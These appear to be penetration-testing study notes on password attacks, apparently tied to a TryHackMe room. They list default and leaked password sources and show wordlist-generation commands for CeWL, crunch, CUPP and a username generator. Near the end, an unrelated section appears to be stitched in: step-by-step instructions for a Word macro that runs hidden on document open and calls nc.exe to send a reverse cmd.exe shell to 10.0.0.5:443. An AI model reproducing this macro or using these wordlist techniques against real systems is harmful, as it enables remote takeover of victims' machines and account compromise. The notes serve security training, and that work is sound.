 # Password Attacks

## Theory

Having a good wordlist is critical to carrying out a successful password attack. It is important to know how you can generate username lists and password lists. In this section, we will discuss creating targeted username and password lists. We will also cover various topics, including default, weak, leaked passwords, and creating targeted wordlists.
We will also speak about tools used to perform online and offline password attacks.

## Practice
### Default Passwords
Here are some website lists that provide default passwords for various products.
1 - [Cirt.net](https://cirt.net/passwords)  
2 - [Default-password](https://default-password.info/)
3 - [Datarecovery](https://datarecovery.com/rd/default-passwords/) 

### Leaked Passwords
Here are some website and tools that provide ressources about leaked passwords.
1 - [PwnedOrNot](https://github.com/thewhiteh4t/pwnedOrNot)
2 - [SecLists/Passwords/Leaked-Databases](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Leaked-Databases)

### Wordlist from website content
CeWL (Custom Word List generator) is a ruby app which spiders a given URL, up to a specified depth, and returns a list of words which can then be used for password crackers such as John the Ripper. Optionally, CeWL can follow external links.

```bash
cewl -w list.txt -d 5 -m 5 http://target.net
```

### Generate User List
Gathering employees' names in the enumeration stage is essential. We can generate username lists from the target's website. For the following example, we'll assume we have a {first name} {last name} (ex: John Smith) and a method of generating usernames.  

Thankfully, there is a tool [username_generator](https://github.com/therodri2/username_generator.git) that could help create a list with most of the possible combinations if we have a first name and last name.

```bash
python3 username_generator.py -w users.lst
```

### Crunch - Generate Password list
crunch is one of many powerful tools for creating an offline wordlist. With crunch, we can specify numerous options, including min, max, and options

```bash
#min=2 max=2 charset=01234abcd outfile=crunch.txt
crunch 2 2 01234abcd -o crunch.txt
```

Crunch also lets us specify a character set using the -t option to combine words of our choice. Here are some of the other options that could be used to help create different combinations of your choice:

[@] - lower case alpha characters

[,] - upper case alpha characters

[%] - numeric characters

[^] - special characters including space

```bash
#min=6 max=6 option=pass[0-9][0-9] outfile=stdin
crunch 6 6 -t pass%%
```

### CUPP - Common User Passwords Profiler (OSINT)

[CUPP](https://github.com/Mebus/cupp) is an automatic and interactive tool written in Python for creating custom wordlists. For instance, if you know some details about a specific target, such as their birthdate, pet name, company name, etc., this could be a helpful tool to generate passwords based on this known information.

```bash
#Interactive mod
python3 cupp.py -i

#Pre-created wordlists
python3 cupp.py -l

# Alecto database default logins
python3 cupp.py -a
```

{% tabs %}

{% tab title="Basic Usage" %}

1 - Create new word document (CTRL+N)  
2 - Hit ALT+F11 to go into Macro editor  
3 - Double click into the "This document" and CTRL+C/V the below:  

```bash
#Macro
Private Sub Document_Open()
  MsgBox "game over", vbOKOnly, "game over"
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```

```bash
#C:\tools\shell.cmd
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```

4 - ALT+F11 to switch back to the document editing mode  
5 - Save the file as a macro enabled document, for example as dotm, Word 97-2003 Document.    


{% endtab %}

{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/passwordattacks" %}


